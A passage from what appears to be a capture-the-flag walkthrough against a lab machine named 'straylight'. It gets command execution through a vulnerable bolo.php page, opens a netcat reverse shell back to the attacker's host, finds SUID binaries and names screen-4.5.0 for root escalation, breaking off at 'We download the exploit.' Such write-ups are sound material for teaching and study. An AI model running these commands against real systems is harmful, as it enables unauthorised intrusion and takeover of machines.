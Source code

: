 We check that netcat is installed on the target.

```console
root@kali:~$ curl -s -X POST "http://192.168.179.180/turing-bolo/bolo.php?bolo=/var/log/mail" --data "cmd=whereis nc" | grep 'Illegal' | tail -n +2 | awk -F ":" '{print $NF}'
 /bin/nc.traditional /bin/nc /usr/share/man/man1/nc.1.gz
```

We start a netcat listener on port 433, and execute the following curl request.

```console
root@kali:~$ curl -s -X POST "http://192.168.179.180/turing-bolo/bolo.php?bolo=/var/log/mail" --data "cmd=nc 192.168.179.1 443 -e /bin/bash"
```

We have a shell with privileges of user www-data.

```console
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.180] 38922
python -c "import pty; pty.spawn('/bin/bash')"
www-data@straylight:/var/www/html/turing-bolo$ 
```

When listing the SUID binaries, screen-4.5.0 was detected, this is a vulnerable version that allows privilege escalation.

```console
www-data@straylight:/home/turing-police$ find / -perm -u=s -type f 2>/dev/null
<uring-police$ find / -perm -u=s -type f 2>/dev/null
/bin/su
/bin/umount
/bin/mount
/bin/screen-4.5.0
/bin/ping
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/newgrp
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
www-data@straylight:/home/turing-police$
```

## Privilege Escalation
### Exploiting Screen 4.5.0 

The vulnerability consists in that the check opens the logfile with full root privileges. This allows us to truncate any file or create a root-owned file with any contents in any directory and can be easily exploited to full root access in several ways.


We download the exploit.
